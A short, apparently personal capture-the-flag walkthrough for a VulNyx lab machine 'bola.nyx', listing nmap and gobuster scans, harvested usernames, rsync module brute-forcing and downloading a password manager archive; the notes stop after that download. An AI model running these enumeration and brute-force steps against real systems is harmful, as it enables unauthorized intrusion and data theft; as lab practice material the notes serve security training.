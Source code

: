 ___

```bash
export IP=192.168.0.24
./nmap.sh
```

/etc/hosts --> bola.nyx

# 80

```bash
gobuster dir -u http://bola.nyx/ -w /home/dani/Documents/lists/content.txt -t 200
```

http://bola.nyx/.well-known/openid-configuration

usernames
```
d4t4s3c
jackie0x17
ct0l4
```

# 873 Rsync

https://github.com/VulNyx/Arsenal/tree/main/rsync-brute

```bash
./rsync-brute -t bola.nyx -p 873 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
rsync -av --list-only rsync://192.168.0.24/extensions
```

```bash
rsync -avz rsync://bola.nyx/extensions/password_manager.zip
```

